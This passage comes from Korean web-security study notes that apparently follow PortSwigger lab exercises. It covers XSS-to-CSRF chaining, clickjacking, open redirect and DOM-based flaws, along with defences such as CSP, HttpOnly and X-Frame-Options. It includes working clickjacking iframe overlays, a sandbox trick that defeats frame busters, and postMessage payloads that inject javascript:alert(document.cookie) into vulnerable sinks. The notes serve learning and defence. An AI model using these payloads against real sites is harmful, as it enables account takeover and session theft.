email변경을 하는 URL로 가서, engagement tools에 Generate CSRF PoC를 클릭, auto submit, CSRF값을 바꿔준다. 
그리고 생성된 HTML을 복사해서 내 사이트 body에 추가한다. 

이걸 다시 유저에게 보내서 유저가 클릭하면 자동으로 form이 POST되면서 이메일이 바뀌게 된다. 

- 요약 
  - URL에 XSS가능함. 
  - URL을 통해 내 사이트에 요청을 보내는 코드를 삽입. 
  - 삽입한 URL을 실행하는 location script를 넣은 내 사이트 주소를 유저에게 클릭하도록 함. 
  - 유저가 클릭하고, 요청URL을 디코딩해서 CSRF token알아냄. 
  -  CSRF과 바꿀 email을 넣은 csrf poc를 html form을 만들어서 다시 내 사이트에 넣고, 
  -  그 폼이 들어있는 URL을 다시 유저가 클릭하게 함. 
  -  그리고 유저가 클릭하면 자동으로 email이 바뀜.  

## 3.6. 방어법

### 3.6.1. Server-side Mitigations

<>, "'를 HTML Entity encoding해서 태그로 안읽히도록 한다. (Escape) 
만약 마크다운같은 태그지원 인풋인 경우에는 화이트리스트 필터링을 한다. 


 ### 3.6.2. HTTP Only 플래그 사용

응답헤더에서 쿠키를 설정할때 붙이는 설정값. 자바스크립트가 쿠키를 읽을 수 없음. 

```http
...
Set-Cookie: session=sbdh1vjwvq; HttpOnly 
```


### 3.6.3. CSP 사용

Content-Security-Policy

응답헤더나 meta태그를 통해서 설정한다. 신뢰가능한 출처를 적는 방식. 

```html
<head> 
	<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-5jFwrAK0UV47oFbVg/iCCBbxD8X1w+QvoOUepu4C2YA='">
</head>
```

`Content-Security-Policy: default-src 'self' *.jimin.com` 

이렇게 설정된 CSP는 모든 리소스(이미지, 스크립트 등)의 출처가 현재 도메인이거나, *.jimin.com 도메인일 경우만 허용된다. 

script-src를 통해 자바스크립트 코드의 신뢰할 수 있는 출처를 적을 수도 있다. 


### 3.6.4. X-XXS Protection

응답헤더에서 설정 

```http
...
X-XSS-Protection: 1; mode=block 
```

웹 브라우져에 내장된 XSS Filter를 활용하는 방법. `report=<reporting-uri>` 플래그로 공격시 보고를 올릴 수도 있다. 

값을 1 로 설정하면 XSS의심부분을 제거하고 렌더링한다. 
0은 필터링이 없다. mode=block은 공격시 렌더링을 안한다. 

하지만 최근 브라우저에서는 사용하지 않는 추세.. 이 헤더만 완전 믿을 수는 없음. 


# 4. Open redirect

## 4.1. 개요

redirect는 사용자의 위치를 이동시키기 위해서 사용한다. 

300번대 응답을 통해서 이동되거나, 자바스크립트를 통해 이동된다. 
이때 이동되는 사이트가 공격자에 의해 변경될 경우 취약점이 발생된다. 

 ## 4.2. 방어

허용된 주소들에 대해서만 이동시킨다. 

사용자의 입력으로 리다이렉트가 될때는 서버에서 해당 링크의 검증을 거친다. 
그리고 사용자에게 외부링크로 이동함을 알린다. 


# 5. Click jacking

## 5.1. 개요 

웹 사용자가 자신이 클릭하고 있다고 인지하는 것과 다른 것을 클릭하게, 속이는 공격법이다. 

인터페이스 기반의 공격. 
iframe을 기존 페이지에 만들고, opacity같은 스타일을 변경하여 진짜 상호작용하는 사이트를 가린다.

유저를 속여서 클릭을 하게하여 원치않는 요청을 보내게 만든다.

***

CSRF를 막기위해서는 CSRF token을 쓴다. 

하지만, Clickjacking은 기존 웹사이트 안에서 요청이 가기 때문에, CSRF token으로 방어할 수 없다. 
일단적인 요청과의 차이는 숨겨진 iframe을 통해서 온다는 것이다. 


## 5.2. 공격예시

### 5.2.1. 예제-1

계정설정 창에 보면, Delete account- 계정삭제 버튼이 있다.
이 버튼을 누르도록 유인하는 것이 목표 

내 사이트에 iframe으로 타겟 사이트를 가져온다. 
그리고 그 위에 다른 위장용 레이어를 더하여 버튼을 클릭하게 유도한다. 

위치가 정확히 맞아야 하기에 여러 번 테스트를 하며 조정함. 그리고 iframe은 안보이게 만들어줌. 

```html
<style> 
   iframe {
       position:relative; 
       width:700px; 
       height: 500px;
       opacity: 0.001; 
       z-index: 2; 
   } 
   div { 
       position:absolute; 
       top:330px; 
       left:60px; 
       z-index: 1; 
   } 
</style>
<!--width, height, top, left 값을 테스트하며 조정해야함.-->
<div>Click me</div> <!--위에 덮어쓸 문구--> 
<iframe src="https://타겟 사이트URL"></iframe> 
 
```


그리고 이 사이트의 URL을 보내서 다른 유저가 방문을 하면, Click me라는 문구만 보이게 된다. 



 

뒤에는 타겟 사이트가 해당 유저의 세션으로 띄워져 있는 상태이다. 
여기서 Click me에 속아서 클릭을 하면 본인 계정을 삭제하게 되는 것이다. 


### 5.2.2. 예제-2

목표는 이메일은 업데이트 하는 것. 
input은 때로 URL query string으로 입력이 가능하다.

그래서 URL이 담긴 iframe을 피싱용 내 사이트에 넣는다. 
그리고 투명하게 하고, 그 위에 Click me 같은 피싱용 문구를 버튼 위에 정확히 오게 조절한다. 

```html
<style> 
  iframe { 
​    position:relative; 
​    width:700px; 
​    height: 500px; 
​    opacity: 0.1; 
​    z-index: 2; 
  } 
  div { 
​    position:absolute; 
​    top:440px; 
​    left:80px; 
​    z-index: 1; 
  } 
</style> 
<div>Click me</div> 
<iframe src="https://타겟사이트/email?email=hacker@attacker-website.com"></iframe> 
```

그리고 이 스크립트가 담긴 URL을 다른 유저가 방문하고, 
Click me에 속아서 누르면, 해커가 설정한 이메일이 URL에 담겨서 update버튼을 누르게 된다. 

***

**Frame busting script**

클릭제킹 공격은 타겟사이트가 frame화 할 수 있어야만 가능하다. 

브라우져는 이런 공격을 막기위해 Frame busting(프레임 파괴)라는 여러 대책을 만들었다. 

- 모든 프레임을 보이게 한다. 
- 안보이는 프레임의 클릭을 막는다. 
- 뒤에 숨겨진 프레임이 있음을 알린다. 등등 

이러한 Frame buster를 피하기위해 HTML5에 추가된 iframe sandbox 속성이 쓰인다. 

allow-forms, allow-scripts, allow-top-navigation 같은 값을 설정하면 Frame buster를 무효화시킬 수 있다. 


### 5.2.3. 예제-3

위의 Lab과 똑같은데, 이번에는 Frame buster가 적용되어 있다. 

그래서 `<iframe sandbox= 'allow-forms' src='~~'>` 샌드박스 속성을 더한다. 
그럼 Frame buster를 피해서 iframe을 띄울 수 있다. 

***

피드백을 입력하는 페이지가 있다. 

input에 스크립트를 넣고, submit을 하면 alert가 뜸. XSS에 취약함을 발견. 

이러한 XSS를 발동 시키기 위해 clickjacking을 이용. 

```html
<!--style, div태그-->
<iframe
src="https:/타겟사이트/feedback?name=&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult">
</iframe> 
```

이전 예제 처럼 style을 설정하고, iframe에는 XSS payload를 포함시킨다. 

그리고 submit위에 Click me 함정을 두고, 누군가 클릭하면 설정한 스크립트 alert가 실행된다. 


### 5.2.4. 예제-4

액션을 두번해야 원하는 요청을 보낼 수 있는 경우가 있음. 

```html
<style> 
   iframe { 
       position:relative; 
       width:700px; 
       height: 500px; 
       opacity: 0.1; 
       z-index: 2; 
   } 
   .firstClick, .secondClick { 
       position:absolute; 
       top:310px; 
       left:50px; 
       z-index: 1; 
   } 
   .secondClick { 
       left:200px; 
   } 
</style> 
<div class="firstClick">Click me first</div> 
<div class="secondClick">Click me next</div> 
<iframe src="https://타겟사이트/account"></iframe> 
```

두개의 div를 만들어서, 차례로 클릭할 수 있도록 함. 


## 5.3. 방어법

### 5.3.1. X-Frame-Options

응답헤더이며, X-Frame-Options: deny로 프레임을 금지시킬 수 있다. 
sameorigin으로 부모 페이지 URL은 허용할 수도 있음, allow-from https;//~~ 등 다양한 옵션이 있다. 

### 5.3.2. CSP frame-ansetors

Content-Security-Policy: policy 또는 frame-ancestors 'none' 으로 X-Frame-Options:deny와 같은 효과를 낼 수 있다. 
끝에 값을 'self' 로 하면, 같은 오리진에서만 프레임이 허용된다. 
뒤로 URL을 추가하면서 프레임으로 쓸 수 있는 URL을 더할 수 있다. 

위에 거보다 이게 더 최신임. 


# 6. DOM-based

## 6.1. 개요

### 6.1.1. 개념

- **DOM** 

 웹페이지는 일종의 문서(document)이다. 이 문서는 브라우져에 의해서 해석된다. 
DOM은 웹페이지의 객체지향표현이며, 자바스크립트같은 언어가 수정할 수 있는 형태를 제공한다. 

즉, 웹 페이지를 프로그래밍 언어들과 연결시켜주는 역할을 한다. 

- **CORS** 

도메인이나 포트가 다른 서버의 자원을 요청하는 것을 Cross Domain Resourse Sharing 이라고 한다. 
그리고 same-origin-policy에 의해서 CORS같은 상황은 브라우져에서 차단이 된다. 


### 6.1.2. source & sink

> - DOM-based vulnerabilities arise when a website contains JavaScript that takes an attacker-controllable value, known as a source, and passes it into a dangerous function, known as a sink. 
>
> - DOM-based vulnerabilities arise when a website passes data from a source to a sink, which then handles the data in an unsafe way in the context of the client's session  

- **sources** 

자바스트립트 프로퍼티이며, 공격자가 이용가능한 데이터를 담고 있다. 

예를 들면 location.search 같은 경우 URL query string 
document.referrer, document.cookie, web message 등이 있다. 

- **sink** 

소스를 받아서 안좋은 결과를 내는 함수, 오브젝트 

document.body.innerHTML 처럼 공격자가 나쁜 소스를 주입할 가능성이 있는 모든 함수들 .

예를 들어서, location.hash 가 있을 경우에 
`https://www.inoccent.com/example#https://evil.net` 을 적어 보내면, 
location 값을 `https://evil.net`이 되게 한다. 

- **자주 쓰이는 source**
  - `document.URL` 
  - `document.documentURI` 
  - `document.URLUnencoded` 
  - `document.baseURI` 
  - `location` 
  - `document.cookie` 
  - `document.referrer` 
  - `window.name` 
  - `history.pushState` 
  - `history.replaceState` 
  - `localStorage` 
  - `sessionStorage` 
  - `IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)` 
  - `Database` 

| DOM기반 취약점                   | Example sink               |
| -------------------------------- | -------------------------- |
| DOM XSS LABS                     | document.write()           |
| Open redirection LABS            | window.location            |
| Cookie manipulation LABS         | document.cookie            |
| JavaScript injection             | eval()                     |
| Document-domain manipulation     | document.domain            |
| WebSocket-URL poisoning          | WebSocket()                |
| Link manipulation                | someElement.src            |
| Web-message manipulation         | postMessage()              |
| Ajax request-header manipulation | setRequestHeader()         |
| Local file-path manipulation     | FileReader.readAsText()    |
| Client-side SQL injection        | ExecuteSql()               |
| HTML5-storage manipulation       | sessionStorage.setItem()   |
| Client-side XPath injection      | document.evaluate()        |
| Client-side JSON injection       | JSON.parse()               |
| DOM-data manipulation            | someElement.setAttribute() |
| Denial of service                | RegExp()                   |

 

## 6.2. Web-message Source

window.postMessage()는 window오브젝트 사이에 안전하게 cross-origin통신이 가능하도록 한다. 
same-origin-policy제약을 안전하게 우회할 수 있음. 

- https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage 
- https://developer.mozilla.org/ko/docs/Web/API/EventTarget/addEventListener 

 If a page handles incoming web messages in an unsafe way, for example, by not verifying the origin of incoming messages correctly in the event listener, properties and functions that are called by the event listener can potentially become sinks. 

 For example, an attacker could host a malicious iframe and use the postMessage() method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page. 

 This behavior means that you can use web messages as the source for propagating malicious data to any of those sinks. 

 

```html
<script> 
window.addEventListener('message', function(e){ 
  eval(e.data); 
  }); 
</script> 
```

이런 메세지를 받는 이벤트 리스너는 XSS에 취약하다. 

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('alert(1)','*')"> 
```

iframe이 로드될때, postMessage()가 webmessage를 타겟사이트에 보냄. 

이벤트 리스너가 그걸 잡아서 eval() sink에게 전달.  

***

- **Case1** 

타겟 사이트에서 개발자 도구를 통해 Window.message 이벤트 리스너가 있고, 소스를 받아오는데에 있어서 취약함을 파악한다. 

그래서 내 사이트에 iframe 태그를 넣고 타겟 사이트 주소를 넣는다. 
onloads 속성에 postMessage를 만들고, 이벤트 리스너가 받을 소스부분에 img를 넣는다. 
그리고 src부분을 비우고 일부러 에러가 나게 해서, 에러 alert를 띄우도록 한다. 

```html
<iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">
```

그리고 다른 유저가 내 사이트를 방문하면, 유저가 iframe을 로드할때, 설정한 함수가 실행되고, img에러가 나면서 alert가 띄워지게 된다. 

> 근데 이게 공격인가?? 
> 그냥 DOM에 설정된 이벤트 리스너에 악성 payload를 삽입할 수 있음을 보여주는 것같기도. 잘 모르겠다...

***

- **Case2.** **JavaScript URL**  

message를 듣는 이벤트 리스너가 있음을 확인한다. https, http를 가진 url을 받아서 location.href라는 함수(sink)에 전달한다는 것을 파악. 

```html
<iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">  
```

새로운 사이트 body 타겟 사이트의 iframe을 추가한다. 
iframe이 로드될때 postMessage함수는 자바스크립트 payload를 location.href에 전달하게 되고, alert함수가 실행되게 된다. 

그러니까 이렇게 만든 사이트를 다른 유저에게 전달해서 유저가 iframe을 로드하면, 
기존 사이트에서 설정한 이벤트 리스너에게 악성 payload를 전달하여 문제가 생기는 것이다. 근데 기존 웹사이트가 공격받거나 한 건 아님. 

***

- **Case3.** **JSON.parse** 

이벤트 리스너의 콜백함수를 분석한다. 

받은 json을 파싱하고, json에 있던 type에 따라 다른 함수를 실행하는 것을 알 수 있다. 
그리고 load-channel 일 경우에는 url을 가져다 쓰며 여기에 다른 코드를 삽입할 수 있다. 

```html
<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(document.cookie)\"}","*")'> 
```

타입을 laod-chnnel로 하고, url에는 자바스크립트 코드를 넣어서 iframe의 src에 쓰도록 한다. 
그럼 다른 유저가 iframe을 로드하면 자바스크립트 코드인 alert가 실행되게 된다. 


## 6.3. Cookie munipulation

`document.cookie` 

위와 같은 함수가 sink로 이용해서 쿠키값을 설정하면, 공격자가 값을 바꿀 수 있음. 

- **Case 1**

  ```html
  <iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">
  ```

  iframe의 src에 타겟홈페이지를 넣고, 끝에 javascript payload를 덧붙인다. 

  > 잘 모르겠다.. 이게 무슨 공격이고 왜 위험한건지.. 

뒤에 나오는 온갖 injection은 DOM의 함수를 sink로 써서 이상한 조작을 하는 것이다. 
그러니까 javascript를 실행하는 것. 다 똑같다. dom에서 실행되는 모든 함수들이 위험한 것이다. 

document오브젝트에 있는 다양한 메소드가 sink로 이용되서 공격자가 이용가능한 소스들을 실행시키는데 사용될 수 있음. 
document.cookie, document.location, document.domain, 그리고 태그로는 a.href, img.src, form.action (link 조작)등등 모두 sink가 될 수 있다는 것. 
그래서 CORS를 지양하고, HTML인코딩을 잘하는 방식으로 sink, sourse 가 되는 것을 막아야함. 